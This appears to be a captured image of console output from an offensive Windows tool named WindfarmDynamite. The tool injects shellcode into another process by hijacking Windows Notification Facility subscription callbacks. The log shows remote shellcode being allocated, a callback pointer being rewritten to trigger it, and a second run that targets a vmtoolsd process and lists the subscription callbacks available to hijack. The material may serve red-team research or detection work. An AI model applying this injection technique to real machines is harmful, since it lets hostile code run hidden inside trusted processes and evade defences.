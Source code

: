 ```
    |-> Callback: 0x7FFD82F58C60 => twinui.dll!DllCanUnloadNow
    |-> Context: 0x2A12F40 => N/A

[+] Allocating remote shellcode..
[>] Sc Len: 344
[>] Sc Address: 0x27A0000

[+] Rewriting WNF subscription callback pointer..
[+] NtUpdateWnfStateData -> Trigger shellcode
[+] Restoring WNF subscription callback pointer & deallocating shellcode..

C:\> WindfarmDynamite.exe -l 4132
.  ..  ..___           .__                 ,
|  ||\ |[__  _.._.._ _ |  \  .._  _.._ _ *-+- _
|/\|| \||   (_][  [ | )|__/\_|[ )(_][ | )| | (/,
                           ._|

[+] Validating Process..
[>] PID: 4132, ImageName: vmtoolsd
    |-> hProc: 640, Arch: x64

[+] Leaking local WNF_SUBSCRIPTION_TABLE..
[>] TblPtr: 0x7FFD99CB5FA8, NtdllRVA: 1335208

[+] Remote WNF_SUBSCRIPTION_TABLE lookup..
[>] rNtdllBase: 0x7FFD99B70000, rWNFSubTable: 0x56B2F0
    |-> NameTable Flink: 0x58EA30, NameTable Blink: 0x58F070

[+] Reading remote WNF subscriptions..
[>] SubscriptionId: 0x931, State Name: WNF_ENTR_EDPENFORCEMENTLEVEL_POLICY_VALUE_CHANGED
    |-> WNF_USER_SUBSCRIPTION: 0x4BB5B88
    |-> Callback: 0x7FFD87505DF0 => edputil.dll!EdpIsUIPolicyEvaluationEnabledForThread
    |-> Context: 0x0 => N/A

[>] SubscriptionId: 0x8FA, State Name: WNF_DX_MODE_CHANGE_NOTIFICATION
    |-> WNF_USER_SUBSCRIPTION: 0x5B9658
    |-> Callback: 0x7FFD96E5B230 => SHCore.dll!Ordinal126
    |-> Context: 0xA1ECB0 => N/A

[>] SubscriptionId: 0x8F9, State Name: WNF_DX_MONITOR_CHANGE_NOTIFICATION
    |-> WNF_USER_SUBSCRIPTION: 0x5B9708
    |-> Callback: 0x7FFD96E5B230 => SHCore.dll!Ordinal126
    |-> Context: 0xA1ECB0 => N/A

[>] SubscriptionId: 0x8F8, State Name: WNF_SPI_LOGICALDPIOVERRIDE
    |-> WNF_USER_SUBSCRIPTION: 0x5BA368
    |-> Callback: 0x7FFD96E5B230 => SHCore.dll!Ordinal126
    |-> Context: 0xA1ECB0 => N/A

[>] SubscriptionId: 0x8F4, State Name: WNF_RPCF_FWMAN_RUNNING
    |-> WNF_USER_SUBSCRIPTION: 0x58F828
    |-> Callback: 0x7FFD98610980 => rpcrt4.dll!NdrTypeSize
    |-> Context: 0x0 => N/A
```

